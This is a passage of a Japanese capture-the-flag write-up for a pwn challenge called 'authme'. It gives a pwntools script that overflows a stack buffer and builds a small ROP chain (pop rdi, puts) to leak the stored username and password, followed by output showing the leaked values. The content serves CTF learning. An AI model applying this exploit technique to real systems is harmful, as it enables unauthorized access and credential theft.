 なるほど、`fgets` はエラーが発生するか 1 文字も読み込まれないまま EOF に到達した際に `NULL` を返すようです。

最初のユーザ名の入力時にリターンアドレスの書き換えまで行い、パスワードの入力時に `shutdown(fd, SHUT_WR)` 相当のことをすればよいでしょう。

`puts(username)` と `puts(password)` でユーザ名とパスワードをリークさせる方針でやってみます。

```python
from pwn import *
elf = ELF('./authme')

def get_info(addr):
  sock = connect('(省略)', 9002)

  sock.recvuntil('Username: ')

  payload = 'A' * 0x20
  payload += p64(0x6020a0)
  payload += p64(0x400b03) # pop rdi
  payload += p64(addr)
  payload += p64(elf.plt['puts'])

  payload = payload[:-1]

  sock.send(payload)
  sock.shutdown('send')

  print sock.recvall()
  sock.close()

get_info(elf.symbols['username'])
get_info(elf.symbols['password'])
```

```
$ python get_info.py
[*] '/.../authme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to (省略) on port 9002: Done
[+] Receiving all data: Done (117B)
[*] Closed connection to (省略) port 9002
Password: UnderUltimateUtterUranium

/home/pwn/redir.sh: line 2: 10654 Segmentation fault      (core dumped) ./chall

[+] Opening connection to (省略) on port 9002: Done
[+] Receiving all data: Done (115B)
[*] Closed connection to (省略) port 9002
Password: PonPonPainPanicParadigm

/home/pwn/redir.sh: line 2: 10656 Segmentation fault      (core dumped) ./chall
```
